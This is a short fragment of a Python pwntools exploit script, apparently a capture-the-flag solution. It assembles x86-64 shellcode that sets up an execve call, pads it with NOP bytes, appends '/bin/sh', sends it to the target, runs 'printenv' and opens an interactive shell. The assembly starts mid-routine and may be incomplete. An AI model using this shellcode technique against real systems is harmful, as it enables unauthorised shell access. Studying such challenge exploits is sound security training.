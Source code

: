 ```python
    xor rsi, rsi
    mov esi, 0xff222201
    shr rsi,8
    shl rsi,8*6
    shr rsi,8*5
    add rsi, rdx

    //execve
    xor rax,rax
    mov al, 0x3b
    mov rdx, [rsi]
    xor rdi, rdi
    xor rdi, 0xdead150

    jmp r10
    '''
    
    payload = asm(payload).ljust(0x150, b'\x90') + b'/bin/sh'
    
    io.sl(f'{len(payload)}'.encode())
    log.info(f"payload: {payload.hex()}")
    io.sl(payload)
    io.sl("printenv")

    io.interactive()

if __name__ == "__main__":
    main()
```